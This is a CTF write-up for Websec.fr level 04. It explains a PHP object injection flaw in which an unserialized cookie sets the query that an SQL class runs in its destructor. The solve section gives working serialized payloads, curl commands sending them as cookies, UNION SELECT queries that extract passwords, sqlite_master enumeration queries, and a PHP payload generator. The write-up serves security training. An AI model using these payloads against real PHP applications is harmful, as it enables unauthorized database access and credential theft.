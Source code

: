 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2018-03-22
date: 2018-03-22
title: 'Websec.fr babysteps: Level 04 - 1pts'
tags: [websec.fr]
mathjax: false
imagefeature: 
description: 'Websec.fr Easy: Level 01'
category: ctf
chart: null
---
```



## Problem
---

Problem URL : https://websec.fr/level04/index.php<br />
Problem Description : Since we're lazy, we take advantage of php's garbage collector to properly display query results.
                      We also do like to write neat OOP. You can get the sources here and here.

```php
//source1.php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>

<!DOCTYPE html>
<html>
<head>
        <title>#WebSec Level Four</title>
        <link rel="stylesheet" href="../static/bootstrap.min.css" />
</head>
        <body>
                <div id="main">
                        <div class="container">
                                <div class="row">
                                        <h1>LevelFour <small> - Cereal is nation</small></h1>
                                </div>
                                <div class="row">
                                        <p class="lead">
                        Since we're lazy, we take advantage of php's garbage collector to properly display query results.<br>
                         We also do like to write neat OOP.
                        You can get the sources <a href="source1.php">here</a> and <a href="source2.php">here</a>.
                                        </p>
                                </div>
                        </div>
                        <div class="container">
                <div class="row">
                    <form class="form-inline" method='post'>
                        <input name='id' class='form-control' type='text' placeholder='User id'>
                        <input class="form-control btn btn-default" name="submit" value='Go' type='submit'>
                                        </form>
                                </div>
                        </div>
                </div>
        </body>
</html>
```

```php
//source2.php
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```


## Solve
---

The problem here our ip address saved in cookie within serialized base64 string,
the cookie named `leet_hax0r` , if the cookie is exsist the script trying to unsealized it.

so this vulnerable to PHP Object Injection because the class SQL put his action to query in `__destruct` magic php method
that will be called when the object destroyed, so if we create SQL object with unserialize and supliying custom query to `$query` variable
we could have sql injection ヽ(・∀・)ﾉ

```
echo -n 'O:3:"SQL":1:{s:5:"query";s:37:"SELECT username FROM users WHERE id=1";}' |base64
TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6Mzc6IlNFTEVDVCB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO30=
```

with this serialized object we could check if the custom query we suplied running correctly with this command
```
curl -v https://websec.fr/level04/index.php -H "Cookie: leet_hax0r=TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6Mzc6IlNFTEVDVCB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO30="

if you see : <strong>Username:<strong> flag</p>
so that validate the exploit is working
 ```
 
 now what query we need to build to get the flag? so we need look closely again
 to the `__destruct()` function.
 
 ```php 
     public function __destruct() {
         if (!isset ($this->conn)) {
             $this->connect ();
         }
         
         $ret = $this->execute ();
         if (false !== $ret) {    
             while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                 echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
             }
         }
     }
 ```
 
 this function will only output $row['username'] and i don't think the flag in username 
 column so we need to use UNION Query to manipulate this, the column still username but we
 want to extract a password so we construct serialized object with that purposes.
 
 ```
 echo -n 'O:3:"SQL":1:{s:5:"query";s:81:"SELECT username FROM users WHERE id=1 UNION SELECT password from users WHERE id=1";}' |base64
 TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6ODE6IlNFTEVDVCB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEgVU5JT04gU0VMRUNUIHBhc3N3b3JkIGZyb20gdXNlcnMgV0hFUkUgaWQ9MSI7fQ==
 
 curl -v https://websec.fr/level04/index.php -H "Cookie: leet_hax0r=TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6ODE6IlNFTEVDVCB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkP
 TEgVU5JT04gU0VMRUNUIHBhc3N3b3JkIGZyb20gdXNlcnMgV0hFUkUgaWQ9MSI7fQ=="
 
 <!DOCTYPE html>
 <html>
 <head>
         <title>#WebSec Level Four</title>
         <link rel="stylesheet" href="../static/bootstrap.min.css" />
 </head>
         <body>
                 <div id="main">
                         <div class="container">
                                 <div class="row">
                                         <h1>LevelFour <small> - Cereal is nation</small></h1>
                                 </div>
                                 <div class="row">
                                         <p class="lead">
                                                 Since we're lazy, we take advantage of php's garbage collector to properly display query results.<br>
                                                  We also do like to write neat OOP.
                                                 You can get the sources <a href="source1.php">here</a> and <a href="source2.php">here</a>.
                                         </p>
                                 </div>
                         </div>
                         <div class="container">
                                 <div class="row">
                                         <form class="form-inline" method='post'>
                                                 <input name='id' class='form-control' type='text' placeholder='User id'>
                                                 <input class="form-control btn btn-default" name="submit" value='Go' type='submit'>
                                         </form>
                                 </div>
                         </div>
                 </div>
         </body>
 </html>
 * Connection #0 to host websec.fr left intact
 <p class="well"><strong>Username:<strong> WEBSEC{9abd8e824[REDACTED]bb662769c08500}</p><p class="well"><strong>Username:<strong> flag</p>#
```

We Got The flag  <(￣︶￣)>

**Bonus:** we could use `as` too for manipulate the column name to username `select password as username from users where id=1`

if you lazy to construct the serialized payload manually you can use this and use the base64 as cookie
```php
<?php

class SQL {
    public $query = 'SELECT password AS username FROM users WHERE id=1';
    public $conn;
}

echo base64_encode(serialize(new SQL()));
```

```
SELECT username FROM users WHERE id=-1 union select group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%'-- - (To find what table is available)
SELECT username FROM users WHERE id=-1 union select sql from sqlite_master where type!='meta' and sql not null and name not like 'sqlite_%' and name='users'-- - (To find what is the table column)
```
